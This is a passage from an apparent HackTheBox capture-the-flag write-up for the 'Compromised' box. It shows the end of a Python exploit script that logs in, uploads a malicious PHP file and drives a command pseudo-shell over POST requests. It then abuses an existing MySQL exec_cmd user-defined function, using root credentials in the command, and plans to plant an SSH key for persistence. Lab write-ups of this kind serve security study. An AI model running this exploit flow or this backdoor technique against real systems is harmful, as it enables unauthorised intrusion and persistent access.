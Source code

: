 ```py
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    while cmd != "exit":
        url = url_restore
        cmd = input(prefix)
        cmd = urllib.parse.quote_plus(cmd, safe='\"\'()/')
        data = "cmd=%s" %cmd
        output = r.post(url,headers=headers,data=data,proxies=proxies)
        print()
        print(output.text) 
        prefix = req.text
        url = url_restore

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    args = parser.parse_args()
    
    rhost = args.target

    '''Here we call the functions'''
    # Login on the app
    loginPage(rhost)
    # Upload the malicious php
    maliciousUpload(rhost)
    # Use as pseudoshell
    setPseudo(rhost)

if __name__ == '__main__':
    main()
```

Now we can continue in our exploration on this box.

# MYSQL UDF

After a hard enumeration, and nothing useful, looking at the name of the box and googling it we found a way to explore it

We found [this](https://pure.security/simple-mysql-backdoor-using-user-defined-functions/) article which explains it very well.

So we see all functions created

```sh
mysql -u root -pchangethis -e "select * from mysql.func;"
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-05-HackTheBox-Compromissed/2021-10-05-HackTheBox-Compromissed%2003:23:53.png)

Whoops, exec_cmd is created, awesome! Is that what we need!

We know can execute commands in it, so let's upload a ssh key there to have persistense as mysql user
